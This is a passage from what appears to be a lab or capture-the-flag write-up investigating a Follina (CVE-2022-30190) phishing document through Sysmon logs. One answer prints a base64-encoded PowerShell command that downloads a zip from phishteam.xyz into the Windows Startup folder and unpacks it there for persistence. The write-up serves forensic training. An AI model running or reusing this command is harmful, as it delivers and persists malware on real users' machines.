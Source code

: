 **Screenshot**: ![IPv4 Address](screenshots/4.png)

#### 5. Base64 Encoded String in Payload
**Question**: What is the base64 encoded string in the malicious payload executed by the document?

**Answer**: `JGFwcD1bRW52aXJvbm1lbnRdOjpHZXRGb2xkZXJQYXRoKCdBcHBsaWNhdGlvbkRhdGEnKTtjZCAiJGFwcFxNaWNyb3NvZnRcV2luZG93c1xTdGFydCBNZW51XFByb2dyYW1zXFN0YXJ0dXAiOyBpd3IgaHR0cDovL3BoaXNodGVhbS54eXovMDJkY2YwNy91cGRhdGUuemlwIC1vdXRmaWxlIHVwZGF0ZS56aXA7IEV4cGFuZC1BcmNoaXZlIC5cdXBkYXRlLnppcCAtRGVzdGluYXRpb25QYXRoIC47IHJtIHVwZGF0ZS56aXA7Cg==`

**Investigation**: Identified the base64-encoded payload executed by `msdt.exe` in Sysmon logs, linked to the malicious document.

**Screenshot**: ![Base64 String](screenshots/5.png)

#### 6. CVE Number of Exploit
**Question**: What is the CVE number of the exploit used by the attacker to achieve a remote code execution? (Format: XXXX-XXXXX)

**Answer**: `2022-30190`

**Investigation**: Confirmed the exploit as Follina (CVE-2022-30190), a known Microsoft Word vulnerability used for remote code execution, via Sysmon log analysis.

**Screenshot**: ![CVE Number](screenshots/6.png)
